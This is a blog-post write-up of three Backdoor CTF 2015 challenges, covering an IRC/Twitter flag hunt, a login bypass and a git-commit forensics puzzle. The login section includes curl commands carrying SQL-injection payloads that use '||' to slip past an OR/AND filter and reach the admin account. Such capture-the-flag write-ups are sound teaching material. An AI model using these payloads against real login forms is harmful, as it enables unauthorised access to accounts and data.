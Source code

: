 ```yaml
---
layout: post
title: Backdoor CTF 2015 - WriteUP
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - evi1m0</p>

#### FOLLOW / WEB10

> Get the first half of flag @BackdoorCtf and other at #backdoorctf15 on irc.freenode.org. Join them and submit sha-256 of the flag.

- @twitter
- irc [backdoorctf15]

Connect the IRC channel, Receive tips: 

[BackdoorCTF 2015. Flag's second part: d68e69f3bbebbb346d338cdf937009ba3c69e5bea60158de2d47da09574f9342. Challenges would always remain online at https://backdoor.sdslabs.co/challenges]

But, This is the second part, I started looking for the first part, twitter?

I found this tweet: [https://twitter.com/BackdoorCTF/status/570822175420129280](https://twitter.com/BackdoorCTF/status/570822175420129280)

I will be the two strings together:

 - 2041615da55336e54cae0692663c2cf35aaa33188c6fa68c56a813f878d9a24d
 - d68e69f3bbebbb346d338cdf937009ba3c69e5bea60158de2d47da09574f9342
 
Flag is the sha256 format:

    >>> import hashlib
    >>> foo = '2041615da55336e54cae0692663c2cf35aaa33188c6fa68c56a813f878d9a24dd68e69f3bbebbb346d338cdf937009ba3c69e5bea60158de2d47da09574f9342'
    >>> print hashlib.sha256(foo).hexdigest()
    14405472874fddf3f051a9085d6c3f559f2804363776e06f2c4afe08e55cd918
    
#### JUDGE / WEB150

> Get the flag from [JUDGE](https://hack.bckdr.in/JUDGE). Submit sha-256 of the flag obtained.

<center><img src="http://ww2.sinaimg.cn/large/c334041btw1eqsr33roxaj20a0035mx8.jpg"></center>

Need to log into admin, Maybe SQL-Injection? But, keywords like OR and AND are filtered.

    ➜  ~  curl http://hack.bckdr.in/JUDGE/index.php --data "username=admin' or '1'='1&password=123456"
    <!DOCTYPE html>

    <html>

    <head>
    <title>Login</title>
    </head>

    <body>
    An Error occured
    
I think the use of '||' instead of 'or':

    ➜  ~  curl http://hack.bckdr.in/JUDGE/index.php --data "username=admin'||'1&password=123456"

<center><img src="http://ww2.sinaimg.cn/large/c334041btw1eqsr7h0re0j20rz0e6tao.jpg"></center>

Simple bypass WAF :)

#### TIM / forensics100

> Visit https://github.com/backdoor-ctf/TIM to get the flag.

I think it is simple, but I was wrong. He gave us a git repository, repo README.md:

 - ..................................
 - Download this repo to get the flag

<center><img src="http://ww3.sinaimg.cn/large/c334041btw1eqsrg0l92ej20s20jowha.jpg"></center>

Interesting rules:

 - commits 47
 - commits 41
 - commits 4c
 - commits 46
 - ...
 
Join these and we get:

    47414c4620316168732074696d6d6f63206863616520666f2073726574636172616863206f7774207473726966206e696f4a

Convert ASCII to text:

    GALF 1ahs timmoc hcae fo sretcarahc owt tsrif nioJ

The Python string reversal:

<center><img src="http://ww1.sinaimg.cn/large/c334041btw1eqsrsqu4w8j20ef03ngm3.jpg"></center>

Github TIM commits log:

    0075376f5b95ab02608746da37cd7bfa54ccbc89
    00ba12f761b4b630edd4b09ebf28a5f4b0bf00ac
    009daea0f203c4c5e968cf4f4dd0b30cd241105c
    004c8ec471a5e9f8177eac3cabea75b6a1b34d60
    00a0913f7281b805f14f220d422e253ad5e17d91
    003cd8f7c9f44e5ef914a23b89683381261aeb1a
    000bd360dd30bef0952dc5e78d0552acbb77cc28
    0084948308ac5f84d2f15df4010926968d4ea4fb
    0068a486c186d9e38e51f87720a0dd65c3e8384d
    75ae4979ffbb663dbc665495cf892e108114adcd
    ..............
    ..............
    ..............
    
The first two byte of each SHA1 commit and concatenate. Flag:

    000000000000000000759f0a868bfc80f44******************************fe7eef1dd6705000000000000000000d4
    
